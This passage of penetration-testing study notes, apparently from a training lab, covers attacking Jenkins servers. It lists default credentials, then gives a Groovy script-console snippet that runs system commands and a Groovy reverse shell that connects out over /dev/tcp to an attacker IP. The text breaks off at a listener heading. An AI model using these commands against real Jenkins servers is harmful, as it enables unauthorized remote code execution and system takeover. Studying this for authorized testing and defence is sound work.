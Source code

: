 ### Weak / Default Credentials

* Common defaults:

  * `admin:admin`
  * `admin:password`
* Misconfigured Jenkins servers **might not require authentication**.
* Such configurations have been found in **internal and occasionally external** penetration tests.

---

# Attacking Jenkins

Once access is gained to a Jenkins application (e.g., via weak credentials), there are multiple attack paths, the most straightforward being **Remote Code Execution (RCE)** via the **Script Console**.

## 1. Script Console

### URL
```plaintext
http://jenkins.inlanefreight.local:8000/script
````

* Allows execution of **Groovy scripts** in the Jenkins controller runtime.
* **Groovy**: Java-compatible language (similar to Python/Ruby), compiled to Java bytecode.
* Often Jenkins runs as **SYSTEM/root**, making this an easy privilege escalation vector.

### Example: Execute `id` Command (Linux)

```groovy
def cmd = 'id'
def sout = new StringBuffer(), serr = new StringBuffer()
def proc = cmd.execute()
proc.consumeProcessOutput(sout, serr)
proc.waitForOrKill(1000)
println sout
```

## 2. Reverse Shell (Linux)

### Groovy Reverse Shell

```groovy
r = Runtime.getRuntime()
p = r.exec(["/bin/bash","-c","exec 5<>/dev/tcp/10.10.14.15/8443;cat <&5 | while read line; do \$line 2>&5 >&5; done"] as String[])
p.waitFor()
```

### Listener Example
